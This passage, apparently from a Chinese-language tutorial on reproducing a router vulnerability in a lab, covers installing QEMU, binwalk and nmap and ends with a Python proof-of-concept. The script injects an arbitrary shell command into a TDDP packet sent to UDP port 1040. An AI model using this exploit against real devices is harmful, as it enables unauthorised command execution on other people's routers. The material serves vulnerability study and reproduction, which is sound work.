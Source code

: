安装pixman解决

编译完成后安装 checkinstall 来生成 deb 包

```shell
sudo apt-get install checkinstall # 安装 checkinstall
sudo checkinstall make install    # 使用 checkinstall 生成 deb 包并安装
```

如果不使用 checkinstall，直接`sudo make install`的会把 qemu 安装在多个位置，如果发生错误不方便删除，所以使用 checkinstall 生成 deb 包方便安装和卸载。

#### binwalk

```shell
sudo apt install git
git clone https://github.com/ReFirmLabs/binwalk
cd binwalk
python setup.py install
sudo ./deps.sh # Debian/Ubuntu 系统用户可以直接使用 deps.sh 脚本安装所有的依赖
```

>**PS：** 本人在最后一步运行`deps.sh`安装依赖的时 `cramfstools` 编译出错导致安装失败，如果你也遇到这个问题，不必理会，因为针对本文讲述的漏洞，这个包并不需要安装

我也遇到了`cramfs-tools`安装失败的问题，但是既然不影响，就不管它

#### nmap

```
apt-get install nmap
```

#### poc.py

这里还是使用合天网安的poc

```python
from pwn import *
from socket import *
import sys

tddp_port = 1040
recv_port = 12345
ip = sys.argv[1]
command = sys.argv[2]

s_send = socket(AF_INET,SOCK_DGRAM,0)
s_recv = socket(AF_INET,SOCK_DGRAM,0)

s_recv.bind(('',12345))

payload = '\x01\x31'.ljust(12,'\x00')
payload += "123|%s&&echo ;123"%(command)

s_send.sendto(payload,(ip,tddp_port))
s_send.close()

res,addr = s_recv.recvfrom(1024)
print res
```
